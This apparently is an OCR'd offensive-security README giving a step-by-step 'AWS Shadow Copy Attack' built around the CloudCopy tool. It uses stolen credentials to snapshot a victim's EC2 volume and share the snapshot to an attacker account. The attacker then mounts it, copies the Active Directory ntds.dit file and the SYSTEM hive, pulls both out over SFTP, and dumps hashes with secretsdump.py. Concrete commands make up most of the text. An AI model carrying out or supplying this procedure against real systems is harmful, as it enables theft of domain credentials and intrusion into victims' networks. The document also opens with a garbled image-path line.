 # AWS - Shadow Copy Attack

## Requirements:

#### 1) EC2:CreateSnapshot

#### 2) CloudCopy - https://github.com/Static-Flow/CloudCopy

## Steps:

### 1) Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions

### 2) Run "Describe-Instances" and show in list for attacker to select

### 3) Run "Create-Snapshot" on volume of selected instance

### 4) Run "modify-snapshot-attribute" on new snapshot to set "createVolumePermission" to attacker AWS Account

### 5) Load AWS CLI with Attacker Credentials

### 6) Run "run-instance" command to create new linux ec2 with our stolen snapshot

### 7) Ssh run "sudo mkdir /windows"

### 8) Ssh run "sudo mount /dev/xvdf1 /windows/"

### 9) Ssh run "sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"

### 10) Ssh run "sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"

### 11) Ssh run "sudo chown ec2-user:ec2-user /home/ec2-user/*"

### 12) SFTP get "/home/ec2-user/SYSTEM ./SYSTEM"

### 13) SFTP get "/home/ec2-user/ntds.dit ./ntds.dit"

### 14) locally run "secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets' , expects secretsdump to be on path

